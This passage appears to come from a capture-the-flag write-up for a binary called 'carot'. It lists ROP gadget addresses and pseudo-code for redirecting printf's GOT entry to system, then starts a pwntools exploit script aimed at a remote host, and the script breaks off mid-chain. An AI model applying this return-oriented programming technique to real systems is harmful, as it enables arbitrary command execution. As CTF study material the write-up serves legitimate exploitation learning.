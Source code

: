 ```py
pop_rsi_pop_r15        = 0x4010d1

ret                    = pop_rdi + 1

mov_rax_qword_rbp_8    = 0x400b7d
mov_qword_rbp_0x30_rax = 0x400cae

add_dword_rbp_0x3d_ebx = 0x400888

jmp_qword_rbp          = 0x4014fb
```
The whole idea behind my ROP chain is to read address of `printf` to a writeable area, increment it to make it `system` address, read a string for argument of `system` then call system with the string.<br>
pseudo-code below:
```
rax = qword ptr [printf's GOT]

rbx = system - printf
rbp = &gif - 8

[rbp] = rax             // write printf address
[&gif - 8] += rbx       // increment

scanf("%[^\n]", &gif)   // read the command

rdi = &gif
rbp = &gif - 8

jmp [rbp]              // system(&gif)
```
My exploit:
```py
#!/usr/bin/env python3
from pwn import *

def start():
    global p
    if args.REMOTE:
        p = remote('167.99.78.201', 11451)
    else:
        p = elf.process(env = {"LD_PRELOAD": libc.path})

context.binary = elf = ELF('./carot')
libc = ELF('./libc-2.31.so')

pop_rbp                = 0x400828
pop_rdi                = 0x4010d3
pop_rbx_pop_rbp_pop_4  = 0x4010ca
pop_rsi_pop_r15        = 0x4010d1

ret                    = pop_rdi + 1

mov_rax_qword_rbp_8    = 0x400b7d
mov_qword_rbp_0x30_rax = 0x400cae

add_dword_rbp_0x3d_ebx = 0x400888

jmp_qword_rbp          = 0x4014fb

junk = u64(b'JUNKJUNK')

ropchain = [
    pop_rbp, elf.got.printf + 8,
```